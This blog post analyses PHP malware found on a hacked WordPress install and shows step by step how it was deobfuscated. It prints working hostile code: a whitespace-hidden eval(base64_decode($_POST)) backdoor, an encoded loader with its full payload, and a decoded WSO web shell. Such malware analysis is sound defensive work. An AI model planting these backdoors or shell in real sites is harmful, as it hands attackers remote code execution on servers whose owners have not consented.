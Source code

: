 ```yaml
---
layout: post
title: "Deobfuscating PHP Malware"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}
This week I was shown some PHP malware in the wild. A coworker was cleaning up a compromised Wordpress install. The web hosting provider had flagged a particular file as malware based on a file signature match. The cause of the infection was pretty clear (misconfigured webserver permissions allowing arbitrary file upload and execution!), so cleanup was strightforward. However, as we dug through the file hierarchy on the webserver, we found a number of additional PHP files that had _not_ been detected as malware, but were clearly malicious. I'm going to walk through the deobfuscation of these files.

These files were found in various subdirectories inside `.git/objects`, which normally contain binary git blobs only. When was the last time you looked at the contents of that directory?

```
.inc.php
.view.php
diff.php
dump.php
inc.php
options.php
proxy.php
session.php
title.php
```

All the files have common names which wouldn't be out of place on any wordpress install. However, in this instance, the names stood out because the usual files in `.git/objects/*/` all have SHA names.

```
master$ ls .git/objects/16

9c10611acf14bef4a5430838a50a30fb967351
d7d7b0e2441d1dddff7dfbac4a944a2a213f28
inc.php
```

Let's look at the contents of one of these files. Here's what `inc.php` looked like when we opened it in an editor:

```php
<?php
```

OK, so just an empty PHP file. Nothing to see here, right? We were caught by this for a few minutes. Now let's try it with word wrap turned on:

```php
<?php                                                                                                                                                                                                                                                               $sF="PCT4BA6ODSE_";$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];if(isset($s22)){eval($s21($s22));}?>

```

Oh, now we've got something! The content was pushed to the right by 255 columns, hidden from casual observers.

Let's see if we can de-obfuscate this code. We'll start by reformatting:

```php
<?php
$sF="PCT4BA6ODSE_";
$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
if(isset($s22)){eval($s21($s22));}
?>
```

And now we can evaluate each line:

```php
<?php

$sF="PCT4BA6ODSE_";

$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
# => $s21="base64_decode"

$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
# => $s22=_POST['n318a65']

if(isset($s22)){eval($s21($s22));}
# => if(isset(_POST['n318a65'])){eval(base64_decode(_POST['n318a65']));}

?>
```

OK, so we have an arbitrary code executor. This code will base64-decode and then execute the contents of the `n318a65` parameter if found in POST data. Easy!

Let's look at a more interesting file. Here's `.view.php`

```php
<?php
$vF9UATQ = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');
function vOSF9PJ($vJ2NSLW, $vIW0M1X){$vYNF1RQ = ''; for($i=0; $i < strlen($vJ2NSLW); $i++){$vYNF1RQ .= isset($vIW0M1X[$vJ2NSLW[$i]]) ? $vIW0M1X[$vJ2NSLW[$i]] : $vJ2NSLW[$i];}
return base64_decode($vYNF1RQ);}
$v4CK4VY = 'wcKdNcoCkcKxkGaBpApxrqRvrnFJtnToFqTutOFXFSDG3nKQ3SaxFqfxteFGtGplADsQFOBYL4pDm0aupOTq10plAuTQr9'.
'roN9WIZOKeNcv5LuaBpANcj9WvkIdoLuklAuTQr9roN9WIZ4RxrRBojqKV'.
'pnIDN7wdrSYzwcTvrqKdL7TCFOook61vNAaBpANZj9XQL4NxgSyG1Sy63Js'.
'zMcv8jRBxrZMswORGkqBGZOW5rGkYSvRtSAQlAQiULqvCkORIzANYLONCrZwGL4wxwGJJzSYzMcv8jRBxrZMswOdobKB'.
'vbcReNZTULOXCNcvHr0kYtAQlAQixrZTCNcvHrRBYj9dUNADJzSYzM71vNKBHF9NUFdBWN9BIrZ1Ck6R8NcvHr0DJz'.
'SYzMcTvrqv8r0D6Rd1mZdrKfv1wSIV6gAa6tuVdgey6zSYzAqvqzcNvNKBHF9NUFdBWN'.
'9BIrZ1Cr4iezAQUp7YzpAaDpcrdLq1Ij9B8pKNSS41IkqvJkOWokOovkGDQFZwGFZQUp7YzpAaDpA'.
'aDpAiGrZTdkqVDjZ1CFZwGFZQswcKGkqKXz0a/pcKGkqKXZOdokAD6Rd1mk'.
'4TGjZixLcKxjcRxwGJDwcKGkqKXz0aPp71IkqvJkOWokOovkGDQFZwGFZQU3JsDpAaDCMsDpAaDwKBMSd1fp'.
'nIDRd1mk4TGjZixLcKxjcRxzATCfyBSRAQlAuaDpAaQZI1mSIHwT0aBpKNSS41IkqvJkOWokOovkGDQZI1m'.
'SIHwT0QlA6IzAqrdLq1Ij9B8p7NxLIW5rOv8zAQDbJsDpAaDjcRorcRGzANpRKTMgxy8tAaItnMDSqBIpyr5N9XQwG'.
'QlAuaDpAiQj9fspeMJ1ApU3JUBADUqN9XeNcv5LuiZfIBxrZTeLOBhj9fswcYYpAT'.
'Oz0ilAuaDpAaQZI1mSIHwTRYQjdIDm0aQNeYzpAaDp71vNc15LOHU'.
'r0DQjGJDw7FU3JUBADUUruDor9dJN7QswcKdNcoCkcKxkGQUp7YzpAaDpcvqzcvxkORIzATC'.
'fyBSRKY6kcKxkGNNz0aqwuasL9MdzATCfyBSRKY6kcKxkGNNz0aBm0a'.
'QFZRIjKBJFZ1xz0QzpAaDpAaDpAiZfIBxrZTeLOBhj9fsL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0QYpAToNZTsZ4iok4tU3'.
'JszpAaDpcvqpADojZ1xrZMswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0'.
'vNz0i2CAaswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0vNpAyBpAToNZTsZ4iok4tUzMsDpAaDpAaDp7NxLI'.
'W5rOv8zAQlA6IzAqrdLq1Ij9B8pcKeNcv5LvwnzAQDbJsDpAaDj9FspfaQZdimfdTLw4aWwdIUp7YzpA'.
'aDpAaDpAaQF0aBpcKGkqKXzasDpAaDpAaDpAaDpAauN9XoL9fupnI+p7iskKBd'.
'LqKHr0DUgasDpAaDpAaDpAaDpAaukcoJZ4rvk61ULOVupnI+p7isk7rvk61ULOVsz0Jz'.
'pAaDpAaDpAaDpAaDp6NxLdBOrZwxj9B8puaBmuiZfIBCRQR0fIvmSuJzpAaDpAaDpAaD'.
'pAaDp61orqRHLOTvpuaBmuiaj9XUZONvNAD6kOKqrRBHLOTvwGQzpAaDpAaDpAaU3JsDpAaDpAaDpcRejc2DkORG'.
'j9KYjZUvzATozSYzpAaDp7IDr9Wxr0ilAuaDpAaDpAaDrZroLADQZdimfdTLw4aWwdIU3JsDpAaDCM'.
'UBAqvqzAivLZiIb0DQZdimfdTLwOy6Z0QDzMsDpAaDj9FsjZ1xrZMswcTvrqKdL7TCF91Ij9B8z0aqwuiqN9XeNcv5LvBvbcv'.
'xN7tswOKeNcv5LukDguaQrcRqFZRYNKBoF4TULOVUzMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwcTvrqKdL7TCF9'.
'1Ij9B83JsDpAaDr9WxrMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwd1vFIv8rq263JUUruDD'.
'p9RHk7TXzATCfyBSRKY6F0NNz0aqwuiqN9XeNcv5LvBvbcvxN7tswOKeNcv5LukDguaQZdimfdT'.
'LwOy6Z0QDzMsDpAaDFOKYLKBdkORGZOrdLqtswOKeNcv5LukDguaQZdimfdTLwOy6Z0QlAqRVjZMl';
eval(vOSF9PJ($v4CK4VY, $vF9UATQ));
?>
```

This file employs similar tactics to obfuscate the payload. I changed the variable names and indentation, and its actions become very clear:

```php
<?php

$char_transposition_map = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');

function transpose_and_base64_decode($source_text, $transposition_map) {
  $transposed_string = '';
  for($i=0; $i < strlen($source_text); $i++) {
    $transposed_string .= isset($transposition_map[$source_text[$i]]) ? $transposition_map[$source_text[$i]] : $source_text[$i];
  }
  return base64_decode($transposed_string);
}

$long_text = '<SNIP>';

eval(transpose_and_base64_decode($long_text, $char_transposition_map));

?>
```

OK, we're ready to see the payload! Changing the final `eval` to a `print` and executing the code gets us this gem:

```php
<?php
$auth_pass = "3feed6004abdb3f9a8281d903be32623";

$color = "#df5";
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';

@ini_set('error_log',NULL);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@set_time_limit(0);
@set_magic_quotes_runtime(0);
@define('WSO_VERSION', '2.5.1');

if(get_magic_quotes_gpc()) {
    function WSOstripslashes($array) {
        return is_array($array) ? array_map('WSOstripslashes', $array) : stripslashes($array);
    }
    $_POST = WSOstripslashes($_POST);
    $_COOKIE = WSOstripslashes($_COOKIE);
}

function wsoLogin() {
    header('HTTP/1.0 404 Not Found');
    die("404");
}

function WSOsetcookie($k, $v) {
    $_COOKIE[$k] = $v;
    setcookie($k, $v);
}

if(!empty($auth_pass)) {
    if(isset($_POST['pass']) && (md5($_POST['pass']) == $auth_pass))
        WSOsetcookie(md5($_SERVER['HTTP_HOST']), $auth_pass);

    if (!isset($_COOKIE[md5($_SERVER['HTTP_HOST'])]) || ($_COOKIE[md5($_SERVER['HTTP_HOST'])] != $auth_pass))
        wsoLogin();
}

function actionRC() {
    if(!@$_POST['p1']) {
        $a = array(
            "uname" => php_uname(),
            "php_version" => phpversion(),
            "wso_version" => WSO_VERSION,
            "safemode" => @ini_get('safe_mode')
        );
        echo serialize($a);
    } else {
        eval($_POST['p1']);
    }
}
if( empty($_POST['a']) )
    if(isset($default_action) && function_exists('action' . $default_action))
        $_POST['a'] = $default_action;
    else
        $_POST['a'] = 'SecInfo';
if( !empty($_POST['a']) && function_exists('action' . $_POST['a']) )
    call_user_func('action' . $_POST['a']);
exit;
?>
```

And voila, a nice little web shell based on WSO.

